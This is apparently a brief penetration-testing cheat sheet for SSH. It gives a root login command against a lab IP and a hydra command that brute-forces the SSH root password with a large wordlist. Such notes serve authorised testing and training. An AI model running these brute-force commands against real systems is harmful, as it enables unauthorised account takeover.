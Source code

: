 ## SSH Penetration Testing

### Login to SSH
`ssh root@10.11.1.140`

### Brute forcing SSH
```
# Brute force SSH, replace 10.11.1.140 with target ip
hydra -e nsr -l root -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 10.11.1.140 ssh -t 4
```
